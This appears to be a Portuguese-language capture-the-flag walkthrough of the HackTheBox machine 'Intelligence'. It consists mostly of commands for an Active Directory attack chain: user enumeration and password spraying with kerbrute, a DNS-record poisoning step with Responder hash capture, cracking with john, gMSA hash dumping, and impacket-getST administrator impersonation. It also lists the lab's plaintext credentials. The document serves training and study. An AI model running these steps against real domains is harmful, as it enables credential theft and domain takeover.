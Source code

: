 Intelligence
========================


## Enumeration

```
sudo nmap -sS -T4 -Pn -A 10.10.10.248
```
    
 
Até então nada de versão interessante para procurarmos exploits

Fomos prourar algo interessante na web. Encontramos dois pdfs que fizemos o download e executampos o seguintes comandos para extração de informações (metadados):

    pdfinfo 2020-12-15-upload.pdf
    
    pdfinfo 2020-01-01-upload.pdf
    
  ![qownnotes-media-aHLlUI](../../../media/qownnotes-media-aHLlUI.png)


### enumerando por meio do LDAP:

    nmap -n -sV --script "ldap* and not brute" 10.10.10.248
    
    
  Utilizando o kerbrute (https://github.com/ropnop/kerbrute) verifiquei que os usuários identificados nos PDFs são válidos no AD:
  
      sudo ./kerbrute_linux_amd64 userenum -d intelligence.htb --dc intelligence.htb /usr/share/
      wordlists/rockyou.txt

![qownnotes-media-oVhUkv](../../../media/qownnotes-media-oVhUkv.png)

Tentativa de smb null session:

    smbmap -H 10.10.10.248
    
Enumeração recursiva:

    smbmap -H 10.10.10.248 -R
    
rpcclient test:

    rpcclient -c lookupnames jose.williams -I 10.10.10.248 -N 
    
 Nada relevante. rpcenum:
 
     impacket-rpcdump @10.10.10.248
     
  Retornando ao primeiro passo pra conseguir  enumerar usuários do sistema:
  
      for i in `seq -f "%02.0f" 1 30`; do wget http://intelligence.htb/documents/2020-12-$i-upload.pdf && pdfinfo 2020-12-$i-upload.pdf;done 2>/dev/null  | grep Creator
  
Devo ressaltar que eu fui alterando de mês a mês na unha.

depois eu gerei uma wordlist por meio do site com a ferramenta cewl:

    cewl http://intelligence.htb > passwords.txt
    
    #password spray
    
    for i in `cat passwords.txt`; do kerbrute passwordspray -d intelligence.htb --dc intelligence.htb usernames.txt $i; done
 
 Tentativa de enumerar via RPCCLIENT sem a utilização de credencial
 
   
    for i in `cat usernames.txt`; do rpcclient -N -U $i intelligence.htb;done
    
Tentativa de enumerar via rpcclient, no entanto qualquer coisa a ser executada com isto não funciona (ACCESS_DENIED)
    
    rpcclient -N -U '' 10.10.10.248
    
    enum4linux -a 10.10.10.248
    
Voltamos nos  PDFs para olhar alguma coias a mais lá. Achamos uma credencial sem ser trocada por meio do arquivo de 
20-06-04-upload.pdf
com a senha:

NewIntelligenceCorpUser9876


Então, iniciamos o trabalho de enumeração das coisas já com credencial:

    enum4linux -u intelligence.htb/Tiffany.Molina -p NewIntelligenceCorpUser9876 -a 10.10.10.248
    
    nmap -p 445,139 --script smb-os-discovery.nse intelligence.htb
    nmap -p 445,139 --script smb-system-info.nse intelligence.htb
    nbtscan intelligence.htb
    nbtscan 10.10.10.248
    # Null session test
    smbclient -I 10.10.10.248 -L ACTIVE -N -U ""
    
Depois de tert obtido as credenciais, continuamos a enumeração via LDAP.

enumerating users

ldapsearch -x -h 10.10.248 -D "Tiffany.Molina@intelligence.htb" -W -b "cn=users,dc=intelligence,dc=htb"
    
Command options explained:

-x use simple authentication (as opposed to SASL)
-h your AD server
-D the DN to bind to the directory. In other words, the user you are authenticating with.
-W Prompt for the password. The password should match what is in your directory for the the binddn (-D). Mutually exclusive from -w.
-b The starting point for the search

Tentativa de enumeração de grupos do AD;

    net ads group -S 10.10.10.248 -U Tiffany.Molina -w intelligence.htb
   (no success)
   
    ldapsearch -x -h 10.10.10.248 -D "Tiffany.Molina@intelligence.htb" -W -b "dc=intelligence,dc=htb" "(objectclass=group)"
    (success)

    ldapsearch -x -h 10.10.10.248 -D "Tiffany.Molina@intelligence.htb" -W -b "memberOf=cn='Remote Desktop Users',ou='Remote Desktop Users',dc=intelligence,dc=htb" "(objectcategory=user)"


## Exploitation

Credenciais;
    Tiffany.Molina
NewIntelligenceCorpUser9876

Pŕóximo passo aqui é o seguinte... Descobrimos que existe um script que envias as credenciais para checagem de servidores web... Tudo o que precisamos fazer é um redirecionamento ed DNS por meio do LDAP. Visto que o protocolo LDAP pode escrever nos registeros de DNS do servidor, é por ele que vamos explorar a vulnerabilidade.


Primeiro só visualizei os registros que já tinham no servidor;


    ldapsearch -x -h 10.10.10.248 -D "Tiffany.Molina@intelligence.htb" -W -b "CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb"
    
 Para criação de um novo registro de DNS no servidor, será necessário criarmos um arquivo LDIF:
 
 
 dn: DC=RootDNSServers,CN=MicrosoftDNS,DC=DomainDnsZones,
 DC=intelligence,DC=htb
 objectClass: top
 objectClass: dnsNode
 arecord: 10.10.14.8
 
 
 Aqui vale ressaltar que quando fui fazer o registro de DNS, notei que ocampo recordDns estava em base 64. Quando decodado, ainda sim não aparecia um IP address, as sim caracteres estranhos. Sendo assim, com uma pesquisa a respeito do assunto, notei que tem um formato específico essa informação conforme dcocumentação da microsoft que pode ser encontrada em:
 
 https://msdn.microsoft.com/en-us/library/ee898781.aspx

Com as orientações desse post aqui:
 
 https://perlmonks.org/index.pl?node_id=1152619
 
 copiei o script deste post e fiz o decode:
 
 ![qownnotes-media-MTKZsl](../../../media/qownnotes-media-MTKZsl.png)

    
#!/usr/bin/perl
    
    # Prints data from "dnsRecord" AD attribute
    
    # adapted from script by natxo, VinsWorldcom and choroba
    # found on http://perlmonks.org/index.pl?node_id=1152619
    # not much tested
    
    use Socket;
    my $out = $ARGV[0];
    
    print (unpack "H*", $out);
    print "\n";
    print substr ((unpack "H*", $out), -8);
    print "\n";
    print inet_ntoa(substr $out, -4);
 
Detalhe que tem uma ferramenta que me auxiliou com relação a colocar um novo registro de DNS na máquina que pode ser obtida no seguinte git:

    https://github.com/dirkjanm/krbrelayx.git

É importante mencionar que essa ferramenta depende do impacket, que já está instalado na máquina e, nesse caso bastou eu executar o seguinte comando para inserir o registro lá:

    python dnstool.py -u 'intelligence.htb\Tiffany.Molina' -p NewIntelligenceCorpUser9876 -a add -r webfakedomain.intelligence.htb -d 10.10.14.2 10.10.10.248
 
Feito isso, bastou subir o responder com o seguinte comando para obter a hash do Ted.Graves:


    sudo responder -I tun0 -A

copiei e colei o hash obtido no responder e quebrei com o john

    john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

### Enumerar o domínio

    python3.9 bloodhound.py -ns 10.10.10.248 -d intelligence.htb -u Tiffany.Molina -p 'NewIntelligenceCorpUser9876' -dc intelligence.htb -c all

### Enumerar shares

```
crackmapexec smb 10.10.10.248 -u Ted.Graves -p Mr.Teddy --shares
```
    
```
smbclient -L //10.10.10.248/ -U intelligence.htb/Ted.Graves
```
    
### Obter hashes de senha

#### Account services

(Esse foi o que funcionou)
    


```
python3.10 gMSADumper/gMSADumper.py -u Ted.Graves -p Mr.Teddy -d intelligence.htb
```


```
impacket-GetUserSPNs -request -dc-ip 10.10.10.248 intelligence.htb/Ted.Graves:Mr.Teddy
```

![qownnotes-media-QReoeZ](../../../media/qownnotes-media-QReoeZ.png)

```
impacket-getST -impersonate administrator -spn www/dc.intelligence.htb -hashes :<nt_hash_de_senha>  intelligence.htb/svc_int 
```

```
impacket-getST 'home.lab/svc_iis:P@ssw0rd10' -dc-ip 192.168.175.200 -spn 'MYSQL/dc01.home.lab' -impersonate administrator -altservice LDAP
```